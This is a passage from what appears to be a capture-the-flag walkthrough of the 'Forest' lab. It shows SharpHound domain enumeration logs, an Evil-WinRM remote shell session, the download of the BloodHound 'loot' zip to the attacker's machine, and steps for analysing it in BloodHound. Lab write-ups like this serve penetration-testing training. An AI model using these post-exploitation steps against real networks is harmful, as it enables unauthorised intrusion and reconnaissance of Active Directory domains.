 ```bash
2024-05-14T02:36:47.5583094-07:00|INFORMATION|Saving cache with stats: 118 ID to type mappings.
 118 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2024-05-14T02:36:47.5739360-07:00|INFORMATION|SharpHound Enumeration Completed at 2:36 AM on 5/14/2024! Happy Graphing!

2024-05-14 12:30:21 +0300: *Evil-WinRM* PS C:\Users\svc-alfresco\Documents > ls
2024-05-14 12:30:26 +0300: 

    Directory: C:\Users\svc-alfresco\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        5/14/2024   2:36 AM          19040 Forest_20240514023646_BloodHound.zip
-a----        5/14/2024   2:36 AM          19605 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
-a----        5/14/2024   2:35 AM        1046528 SharpHound.exe

```

Using `Evil-WinRM's` download module, we can get the loot file to my local machine for analysis.

```powershell
2024-05-14 12:31:23 +0300: *Evil-WinRM* PS C:\Users\svc-alfresco\Documents > download Forest_20240514023646_BloodHound.zip
2024-05-14 12:31:24 +0300: Info: Downloading C:\Users\svc-alfresco\Documents\Forest_20240514023646_BloodHound.zip to Forest_20240514023646_BloodHound.zip
2024-05-14 12:31:31 +0300: Info: Download successful!
```

Assuming you are using Kali Linux as your attack machine, you should already have BloodHound & Neo4j installed. So simply run:

![image](https://gist.github.com/assets/58165365/539c9909-a4fe-4651-b62d-83d38f2602d3)

Once the bloodhound GUI launches, on the top right, select **Upload Data.** and select your ZIP file

![image](https://gist.github.com/assets/58165365/8791989c-128d-4d2a-acd2-adbe43a8ed5e)


Once the data is ingested, on the top left, proceed to search for the `svc-alfresco` principal. Then right click on the user and mark the user as owned.

![image](https://gist.github.com/assets/58165365/76a457b4-864a-490c-91d7-ed2cbd2b6038)


Exploring further, we can start getting more info about the domain using simple queries. For instance we can use the Query highlighted

![image](https://gist.github.com/assets/58165365/1b2c0607-3e5c-47f8-8721-f8083e5d46ad)
